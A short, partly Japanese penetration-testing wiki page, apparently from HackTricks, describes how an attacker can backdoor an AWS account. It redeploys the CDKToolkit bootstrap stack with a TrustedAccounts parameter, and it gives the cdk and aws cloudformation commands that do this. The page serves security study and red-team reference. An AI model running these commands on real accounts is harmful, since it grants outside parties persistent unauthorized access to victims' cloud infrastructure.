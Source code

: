 # AWS - Cloudformation Persistence

{{#include ../../../../banners/hacktricks-training.md}}

## CloudFormation

For more information, access:

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDK Bootstrap Stack

AWS CDKは`CDKToolkit`というCFNスタックをデプロイします。このスタックは`TrustedAccounts`というパラメータをサポートしており、外部アカウントが被害者アカウントにCDKプロジェクトをデプロイすることを許可します。攻撃者はこれを悪用して、パラメータを指定してスタックを再デプロイするためにAWS cliを使うか、あるいはAWS CDK cliを使って、被害者アカウントへの無期限のアクセスを自身に付与することができます。
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../../banners/hacktricks-training.md}}

